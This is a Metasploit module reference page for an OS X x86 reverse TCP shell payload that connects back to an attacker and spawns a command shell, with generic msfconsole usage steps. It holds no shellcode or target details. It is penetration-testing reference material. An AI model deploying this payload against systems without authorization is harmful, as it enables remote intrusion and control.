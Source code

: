 ## OS X (vfork) Command Shell, Reverse TCP Inline

Connect back to attacker, vfork if necessary, and spawn a 
command shell


## Module Name
payload/osx/x86/vforkshell_reverse_tcp

## Authors
ddz





## Platforms
osx

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/osx/x86/vforkshell_reverse_tcp
msf payload(vforkshell_reverse_tcp) > show targets
   ... a list of targets ...
msf payload(vforkshell_reverse_tcp) > set TARGET <target-id>
msf payload(vforkshell_reverse_tcp) > show options
   ... show and set options ...
msf payload(vforkshell_reverse_tcp) > run
```
    
    